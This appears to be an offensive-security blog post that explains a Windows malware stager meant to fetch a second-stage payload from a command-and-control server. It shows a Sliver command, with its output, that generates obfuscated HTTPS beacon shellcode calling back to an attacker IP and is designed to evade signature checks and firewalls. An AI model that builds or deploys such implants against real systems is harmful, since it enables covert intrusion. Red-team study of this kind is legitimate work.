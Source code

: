 The loader will act as a **Stage 1** payload (e.g. `stager.txt`). Its primary purpose is to establish communication with a command and control (C2) or payload server and download the larger, more feature-rich (and often encrypted) **Stage 2** payload. The second stage payload is the main malicious code that we as an attacker intend to execute on the target system. 

![Stager diagram](/assets/images/maldev/stager-diagram.png)

For this blog post our final payload will be a Sliver beacon. The goal is to create a stager with the following properties:
1. Natively supported by Windows without too much dependencies.
2. Bypass common defenses found on modern operating systems (e.g. signature checks).
3. Use commonly whitelisted protocols in order to bypass firewall rules and fit in with normal traffic (e.g. web traffic).

## Sliver Setup

!!!info
For more information on installing and using Sliver, see the [official wiki](https://sliver.sh/docs?name=Linux+Install+Script).
!!!

From Sliver v1.5 you can make extensive customizations to the HTTP C2 traffic generated by the server and implant by modifying the HTTP C2 configuration file, which by default is located at `~/.sliver/configs/http-c2.json`. To be able to blend in more with normal traffic, I made some minor modifications to this file.

Next, we can generate our HTTPS beacon shellcode with basic obfuscation features enabled.

```console
$ sudo ./sliver-server_linux
[server] sliver > generate beacon -b https://192.168.129.40 -e -f shellcode -N rev --seconds 30 --jitter 3 --os windows -s /tmp

[*] Generating new windows/amd64 beacon implant binary (30s)
[*] Symbol obfuscation is enabled
[*] Build completed in 10s
[*] Encoding shellcode with shikata ga nai ... success!
[*] Implant saved to /tmp/rev.bin
```
